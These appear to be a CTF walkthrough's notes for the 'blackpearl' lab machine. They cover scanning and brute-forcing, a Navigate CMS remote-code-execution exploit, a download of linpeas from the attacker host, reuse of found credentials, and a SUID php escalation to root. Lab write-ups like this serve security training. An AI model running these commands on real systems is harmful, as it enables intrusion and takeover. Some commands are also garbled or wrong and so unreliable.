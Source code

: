 **nmap -A -p- 192.168.86.199**
   'PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
    | ssh-hostkey:
    |   2048 66:38:14:50:ae:7d:ab:39:72:bf:41:9c:39:25:1a:0f (RSA)
    |   256 a6:2e:77:71:c6:49:6f:d5:73:e9:22:7d:8b:1c:a9:c6 (ECDSA)
    |_  256 89:0b:73:c1:53:c8:e1:88:5e:c3:16:de:d1:e5:26:0d (ED25519)
    53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u5 (Debian Linux) 
    | dns-nsid:
    |_  bind.version: 9.11.5-P4-5.1+deb10u5-Debian
    80/tcp open  http    nginx 1.14.2 ****
    |_http-title: Welcome to nginx!
    |_http-server-header: nginx/1.14.2
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel'

**ffuf - No good**

**HTML**
    'http://<ip>
    + <body>
    + <!-- Webmaster: alek@blackpearl.tcm -->
    + <html>'

**Gobuster**
'gobuster dir -u http://<ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 --wildcard 2>/dev/null | grep "Status: 200"'
/secret               (Status: 200) [Size: 209]
    'DL file:
        OMG you got r00t !
        Just kidding... search somewhere else. Directory busting won't give anything.
        <This message is here so that you don't waste more time directory busting this particular website.>'
**Hydra**
'hydra -hydra -l alek -P /usr/share/wordlists/rockyou.txt ssh://192.168.86.199 '

**DNSRECON**
'dnsrecon -r 127.0.0.0/24 -n 192.168.86.199 -d extra (-d is domain && any domain is required) #**Virtual Host Routing**
        [*] Performing Reverse Lookup from 127.0.0.0 to 127.0.0.255
        [+] 	 PTR blackpearl.tcm 127.0.0.1
        [+] 1 Records Found'
    - **sudo vi /etc/hosts**
        <ip>    blackpearl.tcm
        http://blackpearl.tcm
            Linux blackpearl 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 
        fuff once again:
            /nagivate - login.php ( Navigate CMS v2.8, © 2021)
                    **Always google new environment**
                https://www.rapid7.com/db/modules/exploit/multi/http/navigate_cms_rce/  
        msfconsole use use exploit/multi/http/navigate_cms_rce
                set domain - blackpearl.tcm : run
    - **meterpreter > shell:**
        'python -c 'import pty;pty.spawn("/bin/sh")''
            - pwd: ~/blackpearl.tcm/navigate 
            - ls -alth #This directory has higher permissions
        'wget http://<ip>/linpeas.sh linpeas.sh' #upload privecs
    - **linpeas.sh:**
        + /var/www/blackpearl.tcm/navigate/cfg/globals.php:define('PDO_PASSWORD', "H4x0r");
        + /var/www/blackpearl.tcm/navigate/cfg/globals.php:define('PDO_USERNAME', "alek");
        + 'mysql -u alek -p (pw H4x0r)'  #Success
        + 'show databases; show tables; use navigate'
                'select * from nv_users; ::
                    alek && PW: 26f1e0e7b718d27e0428e1b3b4b3f677'
    - **ssh alek@<ip> -p H4x0r**:: **Success**
            'find / -perm /6000 2</dev/null' ![GTFObins](https://gtfobins.github.io/gtfobins/php/#suid)
                #/php - GTFObins - click php -> SUID
            '/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"'  # **Success**
                        $ whoami::
                          root
                        $cd root/ && cat flag.txt ::
                            'Good job on this one. Finding the domain name may have been a little guessy, but the goal of this box is mainly to teach about Virtual Host Routing which is used in a lot of CTF.'

                    